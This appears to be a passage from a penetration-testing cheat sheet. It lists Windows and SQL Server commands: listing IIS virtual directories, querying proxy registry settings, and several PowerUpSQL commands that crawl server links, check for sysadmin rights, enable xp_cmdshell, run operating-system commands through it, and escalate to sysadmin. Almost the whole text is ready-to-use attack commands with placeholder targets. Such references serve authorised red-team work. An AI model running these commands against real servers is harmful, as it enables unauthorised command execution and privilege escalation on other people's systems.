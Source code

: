 ## IIS List Virtual Directory
```
appcmd.exe list vdir
```

## Check Proxy (ProxyEnable, ProxyServer)
Ch3
```
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v proxy*
```

# PowerUpSQL
https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

## PowerUpSQL SQLServerLinkCrawl
```
Get-SQLServerLinkCrawl -Instance <sqlserver> | format-table
```

## PowerUpSQL Check current user
```
Get-SQLQuery -Instance <sqlserver> -Query "SELECT SYSTEM_USER;"
```

## PowerUpSQL Check is sysadmin
```
Get-SQLQuery -Instance <sqlserver> -Query "SELECT IS_SRVROLEMEMBER('sysadmin');"
```

## PowerUpSQL Enable xp_cmdshell
```
Get-SQLQuery -Instance <sqlserver> -Query "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;"
```

## PowerUpSQL Execute xp_cmdshell
```
Invoke-SQLOSCmd -Verbose -Instance <sqlserver> -Command "<cmd>"
```


## PowerUpSQL Escalate to sysadmin
```
Invoke-SQLEscalatePriv -Verbose -Instance <sqlserver>
```

## findstr
```
findstr /s /i <keyword> *.*
```
